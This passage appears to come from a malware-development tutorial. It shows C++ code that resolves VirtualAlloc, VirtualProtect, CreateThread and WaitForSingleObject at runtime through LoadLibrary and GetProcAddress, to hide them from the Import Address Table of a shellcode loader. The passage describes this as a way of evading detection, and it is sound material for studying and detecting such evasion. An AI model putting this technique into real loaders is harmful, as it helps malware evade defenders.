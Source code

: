 We also need to know the API definition syntax for each function which we can find on the Microsoft Win32 API documentation. An example of the `VirtualProtect` API definition is found at [this link](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) which tells us the API syntax and that its within `kernel32.dll` near the bottom of the page.

<img src="/assets/images/maldev101/virtualprotect.png" alt="VirutalProtect syntax" width="500"/>

We can create definitions and use these functions in the below C++ code sample to identify addresses in memory of our required function calls (`VirtualAlloc, CreateThread, etc.`) using `LoadLibrary` and `GetProcAddress` which will "clean" our Import Address Table.

```cpp
// First create function definitions of each used function using Win32 API documentation
typedef LPVOID (WINAPI* pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD  flProtect);
typedef BOOL (WINAPI* pVirtualProtect)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
typedef HANDLE (WINAPI* pCreateThread)(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE  lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
typedef DWORD(WINAPI* pWaitForSingleObject)(HANDLE hHandle, DWORD dwMilliseconds);

// Get address of kernel32.dll using LoadLibrary
HMODULE kernel32Library = LoadLibrary(L"kernel32.dll");

// Get addresses of function exports using GetProcAddress
pVirtualAlloc fnVirtualAlloc = (pVirtualAlloc)GetProcAddress(kernel32Library, "VirtualAlloc");
pVirtualProtect fnVirtualProtect = (pVirtualProtect)GetProcAddress(kernel32Library, "VirtualProtect");
pCreateThread fnCreateThread = (pCreateThread)GetProcAddress(kernel32Library, "CreateThread");
pWaitForSingleObject fnWaitForSingleObject = (pWaitForSingleObject)GetProcAddress(kernel32Library, "WaitForSingleObject");
```

If we create and compile the full C++ payload to launch shellcode, we can check the function imports using `dumpbin` shown below. The IAT now only shows some basic API imports and successfully hid our functions!
